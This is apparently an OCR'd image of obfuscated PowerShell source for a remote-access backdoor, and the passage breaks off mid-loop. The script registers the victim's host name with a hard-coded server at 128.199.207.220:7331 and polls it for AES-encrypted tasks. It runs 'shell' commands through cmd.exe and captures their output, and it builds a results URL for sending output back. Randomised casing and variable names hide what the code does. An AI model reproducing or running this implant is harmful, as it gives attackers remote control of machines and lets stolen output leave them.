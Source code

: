```powershell
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {
    
    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
function ShELL(${DfJz1co}, ${yo8xm5}){
    
    ${CwzVYVJ}                        = New-Object 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = New-Object 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}
    
    ${p}.Start.INvoKE() | Out-Null
    ${P}.WaitForExit.invoKE()
    
    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw" 
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (Invoke-WebRequest -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    
    ${MA04XMgY}  = (Invoke-WebRequest -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt
    
    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){
        
        ${mA04XMgY} = Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]
        
        if (${FlAg} -eq 'VALID'){
            
            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){
            
                ${F}    = 'cmd.exe'
```